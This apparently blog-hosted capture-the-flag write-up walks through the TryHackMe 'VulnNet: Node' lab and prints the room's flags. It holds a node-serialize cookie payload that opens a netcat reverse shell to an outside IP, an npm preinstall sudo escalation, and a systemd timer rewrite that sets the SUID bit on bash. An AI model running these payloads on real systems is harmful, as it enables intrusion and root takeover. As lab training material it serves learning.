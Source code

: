 ```yaml
---
title: Vulnet:Node
layout: post
author: Bit Criminals Team
date: 2021-05-06 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/vulnnetnode
---
```


So we run a full Nmap scan to see which ports are open,and we see that only one port is open.

```py
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```
And since a tcp port is open we run our routine gobuster scan , which shows us that these directories are present.

![](/images/MaskdMafia/node1.png)

Meanwhile,opening the website on our browser we are greeted with this page.

![](/images/MaskdMafia/node2.png)

And inspecting the page we see that it has a base64 encoded cookie , which , on decrypting gives this:

```py
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```
On changing the value of Username from "Guest" to "Admin" shows us "Welcome Admin" on the page.
However,changing the cookie value to anything else shows us errors

![](/images/MaskdMafia/node-3.png)

So we decide to put a reverse shell in the Username field, which gives us access to the machine .

```py
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.8.34 1337 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
![](/images/MaskdMafia/node-4.png)

So we try to see what commands we are allowed to execute as www

![](/images/MaskdMafia/node5.png)

Searching for an npm exploit on GTFOBins we get one result so lets try it out !

So we run these two commands on the machine:

```py
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage /usr/bin/npm -C ./ --unsafe-perm i
```
Lets see if it worked.

![](/images/MaskdMafia/node6.png)

Yay! We are now serv-manage.We now go to /home/serv-manage to get our user.txt.

User-Flag: THM{064640a2f880ce9ed7a54886f1bde821}

Next we need to get root privileges.So we run sudo -l to see which commands the user serv-manage is allowed to execute.

![](/images/MaskdMafia/node7.png)

So we go to the directory which has vulnnet-auto.timer and write the following to the files.

```py
echo '[Unit]
Description=Run VulnNet utilities every 30 min
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
[Install]
WantedBy=basic.target' > vulnnet-auto.timer
```

```py
echo '[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > vulnnet-job.service
```
Waited sometime and we got the root priveleges !
Now we go to the root directory and see the contents of root.txt.

![](/images/MaskdMafia/node-8.png)

Root Flag: THM{abea728f211b105a608a720a37adabf9}



